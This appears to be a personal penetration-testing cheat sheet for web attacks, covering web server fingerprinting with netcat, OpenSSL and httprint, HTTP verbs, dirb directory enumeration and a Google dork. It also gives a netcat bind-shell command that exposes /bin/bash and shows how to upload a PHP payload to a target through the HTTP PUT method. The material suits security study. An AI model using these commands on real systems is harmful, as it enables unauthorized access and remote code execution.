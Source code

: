 # Web Attacks

## Fingerprinting with Netcat

Netcat can be used to fingerprint the web server, it acts as both client and server.

```
nc <target> 80
HEAD / HTTP/1.0
```
Limitation with Netcat is that it cannot connect to HTTPS connections, So to connect to the HTTPS connection we can use **_OpenSSL_** command line tool.

## Fingerprinting with OpenSSL

```
openssl s_client -connect target.site:443
HEAD / HTTP/1.0
```

## Fingerprinting with Httprint

**_Httprint_** is a web server fingerprinting tool that uses a signature-based technique to identify web servers.

```
httprint -P0 -h <target hosts> -s <signature file>
```


* -P0 : Do not ping.
* -h  : Target hosts.
* -s  : set signature file to use.
* signature file location : ```/usr/share/httprint/signature.txt```

## HTTP Verbs

The most common HTTP methods are:

* GET   : used to request resources from web server
* POST  : used to submit form data to web server
* HEAD  : only asks for headers of the response, excludes body
* DELETE: used to remove a file/data from the server
* PUT   : used to **upload** file to the server
    
    To exploit the **PUT** method attacker needs to know the exact file uploading to the server. This can be done by using **_wc_** (word count) utility with **_-m_** parameter in linux.
    
    ```wc -m payload.php```
    
    After creating the payload and determining its size, use the following command to upload the payload to the server.
    
    ```
    nc target.com 80
    PUT /payload.php HTTP/1.0
    Content-type  : text/html
    Content-length  : 20
    
    <?php phpinfo(); ?>
    ```

## Netcat

```nc -lvp 8888``` Listener client

```nc -v 127.0.0.1 8888``` Server

Netcat udp connection

```nc -lvup 9999``` Listener client

```nc -vu 127.0.0.1 9999``` Server

Send or receive data through a file

```nc -lvp 8888 > received.txt``` Listener client

```echo "Hello" | nc -v 127.0.0.1 8888``` Server

Obtain remote **Bind Shell** using **Netcat**

```nc -lvp 8888 -e /bin/bash``` Listener client

```nc -v 127.0.0.1 8888``` Server

## Dirb

Dirb is a command line tool for enumerating directories and files.

Basic usage command, when not specified wordlist it uses by default wordlist for enumeration.

```dirb http://target.com```

Dirb wordlist location

```/usr/share/dirb/wordlists```

Usage with custom wordlist

```dirb http://target.com /usr/share/dirb/wordlists/common.txt```

[Seclists](https://github.com/danielmiessler/SecLists) wordlists collection

Dirb options:

```-a : custom user agent``` [useragents list](http://useragentstring.com/pages/useragentstring.php)

```dirb http:target.com -a "Mozilla/5.0 (Windows NT 6.1; WOW64; rv:77.0) Gecko/20190101 Firefox/77.0"```

```
-p : proxy option
dirb http://192.168.121.12 -p http://127.0.0.1:8080
```

```
-c : authentication using cookie
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -c "COOKIE:XYZ"
```

```
-u : basic HTTP authentication, uses username and password combination
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -u "admin:password"
```
```
-H : add custom header to HTTP request
dirb http://192.168.121.12 -p http://127.0.0.1:8080 -H "HeaderName: HeaderValue"
```

```-r :Don't search recursively```

```
-z : delay timing
dirb http://192.168.121.12 -z 1000
```

```
-S : silent mode
dirb http://192.168.121.12 -S
```

```
-X : extensions
dirb http://192.168.121.12 -X ".php,.bak"

-x : extensions list
dirb http://192.168.121.12 -x extensions.txt
```

## Google Hacking

Google hacking or Google Dorks is a technique to use Google's advance query commands to discover specific files and directories on a website.

```inurl:admin intitle:login```
